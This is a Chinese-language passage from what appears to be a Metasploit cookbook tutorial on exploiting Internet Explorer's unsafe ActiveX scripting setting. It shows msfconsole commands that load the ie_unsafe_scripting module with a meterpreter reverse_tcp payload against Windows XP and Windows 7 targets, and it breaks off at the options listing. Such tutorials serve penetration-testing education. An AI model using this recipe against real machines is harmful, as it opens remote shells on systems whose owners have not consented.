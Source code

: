 # Internet Explorer 不安全的脚本配置漏洞

让我们从第一个基于浏览器的客户端攻击开始。使用任何客户端攻击模块的基本过程与我们在之前章节中讨论的类似。唯一的区别在于将利用传输到目标机器。与基于操作系统的利用不同，客户端利用需要手动执行利用和有效载荷。一旦我们进行配方，你将清楚地理解它。所以让我们快速地开始实施攻击。

## 做好准备

我们将开始启动我们的 msfconsole 并选择相关的利用。这个过程与我们在之前章节中讨论的类似。然后，我们将继续选择一个有效载荷，它将帮助我们与目标机器建立 shell 连接。在这个配方中，我们将处理的利用是`exploit/windows/browser/i.e. unsafe scripting`。

### 注意

这个利用已知影响 Internet Explorer 6 和 7 版本，它们是 Windows XP 和 2003 服务器所有版本的默认浏览器。但它甚至成功运行在我的 Windows 7 ultimate 上，使用的是 Internet Explorer 8（未打补丁）。

当 Internet Explorer 中标记了**未标记为安全的初始化和脚本 ActiveX 控件**设置时，这个利用就会生效。可以通过启动 Internet Explorer 并浏览到**工具** | **Internet 选项** | **安全** | **自定义级别** | **未标记为安全的初始化和脚本 ActiveX 控件** | **启用**来找到这个设置。

![做好准备](img/7423_04_01.jpg)

其他版本的 Internet Explorer 也可以进行类似的设置。在这个配方中，我们将利用两个不同的目标。一个运行 Windows XP SP2，IE 7，另一个运行 Windows 7，IE 8。现在让我们继续执行利用。

## 操作步骤...

让我们开始启动 msfconsole 并将我们的相应利用设置为活动状态。一旦被利用，我们将使用`reverse_tcp`有效载荷与这两个目标建立 shell 连接：

```
msf > use exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ie_unsafe_scripting) > show options
Module options (exploit/windows/browser/ie_unsafe_scripting):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host to..
SRVPORT 8080 yes The local port to..
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL..
SSLVersion SSL3 no Specify the version..
URIPATH no The URI to use for..
```